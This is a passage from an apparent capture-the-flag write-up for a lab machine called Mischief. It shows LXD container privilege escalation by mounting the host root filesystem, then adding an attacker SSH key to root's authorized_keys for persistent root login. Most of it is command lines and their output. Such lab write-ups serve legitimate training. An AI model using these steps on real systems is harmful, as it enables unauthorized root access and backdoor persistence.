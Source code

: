 ```
Creating priv

loki@Mischief:/dev/shm/.df$ lxc config device add priv host-root disk source=/ path=/mnt/root/
Device host-root added to priv

loki@Mischief:/dev/shm/.df$ lxc start priv
loki@Mischief:/dev/shm/.df$ lxc exec priv /bin/sh
~ # id
uid=0(root) gid=0(root)

/mnt/root/root # ls -l
-r-------- 1 root root 46 May 17  2018 root.txt

```

I’ll get a shell by dropping rsa keys into `/mnt/root/root/.ssh/authorized_keys` (I can create a throw-away pair with `ssh-keygen`):

```

/mnt/root/root/.ssh # echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDl5LEqq2Z0dsFtwVRAhYfs3VlLEf7bHRLMcMFt9ND+JezGfUSRciY6jx0Z7V8N5G4CQIPy1V1N+6RAHsR003u8Ygu4MVCVhwEOMe5utYa5SWDqFbf1i8LFKlAgPAT5bGu9lm9wx/isQTnB6
2hOhOaN+x/IBKpfuavietZG5F23imeTEcLuVnbRS59RTSkhDky21Cn7OmmJgDPFy473hkkAt4WUJemM6QDkneS8siIgkeMBpiB68Blf17XQ9MNAgawCyEzX2QcUiqJ5tdn3Ekcdfyy3qRuJIpNEfMZ6LdGYjfEZNGYNnIKQmHPfyjqw02deI3Zo2nQ1DeboJEZt+ngD root@kali
'  >> authorized_keys

/mnt/root/root/.ssh # cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDl5LEqq2Z0dsFtwVRAhYfs3VlLEf7bHRLMcMFt9ND+JezGfUSRciY6jx0Z7V8N5G4CQIPy1V1N+6RAHsR003u8Ygu4MVCVhwEOMe5utYa5SWDqFbf1i8LFKlAgPAT5bGu9lm9wx/isQTnB62hOhOaN+x/IBKpfuavietZG5F23imeTEcLuVnbRS59RTSkhDky21Cn7OmmJgDPFy473hkkAt4WUJemM6QDkneS8siIgkeMBpiB68Blf17XQ9MNAgawCyEzX2QcUiqJ5tdn3Ekcdfyy3qRuJIpNEfMZ6LdGYjfEZNGYNnIKQmHPfyjqw02deI3Zo2nQ1DeboJEZt+ngD root@kali

```

Now ssh in as root:

```

root@kali# ssh -i ~/id_root-mischief root@10.10.10.92
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jul 11 20:43:37 UTC 2018

  System load:  0.0                Processes:             154
  Usage of /:   28.5% of 15.68GB   Users logged in:       1
  Memory usage: 54%                IP address for ens33:  10.10.10.92
  Swap usage:   0%                 IP address for lxdbr0: 10.47.91.1
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Jul 11 20:37:53 2018 from 10.10.15.26
root@Mischief:~# id
uid=0(root) gid=0(root) groups=0(root)
```